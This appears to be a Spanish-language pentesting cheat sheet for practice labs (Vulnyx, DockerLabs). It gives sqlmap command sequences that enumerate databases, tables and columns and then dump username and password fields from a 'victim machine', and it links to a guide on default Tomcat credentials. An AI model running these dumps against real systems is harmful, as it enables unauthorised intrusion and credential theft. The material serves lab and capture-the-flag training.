 ## Inyecciones SQL – Uso de SQLmap

{% embed url="https://vulnyx.com/#shop" %}

Conocer las bases de datos.

```bash
sqlmap -u http://<IP máquina víctima> --forms --dbs --batch
```

Conocer las tablas de la base de datos objetivo.

```bash
sqlmap -u http://<IP máquina víctima> --forms -D Webapp --tables --batch
```

Conocer las columnas de la tabla de la bases de datos objetivo.

```bash
sqlmap -u http://<IP máquina víctima> --forms -D Webapp -T Users --columns --batch
```

Conocer la información que hay en esas columnas.

```bash
sqlmap -u http://<IP máquina víctima> --forms -D Webapp -T Users -C username,password --dump --batch
```

## Inyecciones SQL – Uso de SQLmap – EJEMPLO 2

{% embed url="https://dockerlabs.es" %}

```bash
sqlmap -u http://<IP máquina víctima> --forms --dbs --batch
```

```bash
sqlmap -u http://<IP máquina víctima> --forms -D register --tables --batch
```

```bash
sqlmap -u http://<IP máquina víctima> --forms -D register -T users --columns --batch
```

```bash
sqlmap -u http://<IP máquina víctima> --forms -D register -T users -C username,password --dump --batch
```

## Hacking Servidor Tomcat

{% embed url="https://vulnyx.com/#deploy" %}

En esta página encontramos las credenciales más comunes de Tomcat y cómo vulnerar el servidor.

{% embed url="https://book.hacktricks.xyz/es/network-services-pentesting/pentesting-web/tomcat" %}

Dependiendo de la versión del servidor puede funcionar uno u otro.

